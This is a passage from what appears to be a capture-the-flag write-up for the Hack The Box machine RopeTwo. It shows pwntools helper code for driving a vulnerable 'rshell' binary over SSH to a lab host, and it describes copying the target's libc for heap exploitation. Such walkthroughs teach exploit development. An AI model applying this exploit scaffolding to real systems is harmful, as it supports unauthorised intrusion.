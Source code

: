 ```
        p.sendline(content)
    res = p.recvuntil(prompt)
    return res 
    
def rm(name, wait=True):
    p.sendline(f'rm {name}')
    if wait:
        p.recvuntil(prompt)

def edit(name, size, content='x'):
    p.sendline(f'edit {name}')
    res = p.recvuntil(('size: ', prompt))
    if res == prompt: 
        pdb.set_trace()
        return
    p.sendline(f'{size}')
    if size > 0:
        p.recvuntil('content: ')
        p.send(content)
    p.recvuntil(prompt)

rshell = ELF('./rshell')
libc = ELF('./libc.so.6-ropetwo')

if args.REMOTE:
    remote = ssh(host='10.10.10.196', user='chromeuser', keyfile='/root/keys/ed25519_gen')

if args.REMOTE:
    p = remote.run('rshell')
else:
    p = process('./rshell')
p.recvuntil('$ ')
x=1

```

#### Libc

I’ll want to use the same `libc` that is being used on RopeTwo:

```

chromeuser@rope2:~$ ldd /usr/bin/rshell 
        linux-vdso.so.1 (0x00007fff8515b000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fc977190000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fc97738a000)

```

I’ll use `scp` to get both `libc.so.6` (which I’ll name `libc.so.6-ropetwo` on my host) and `ld-linux-x86-64.so.2`.

I’ll want debug symbols for `libc`, so I’ll use the same process I used in [PlayerTwo](/2020/06/27/htb-playertwo.html#fix-heapinfo):
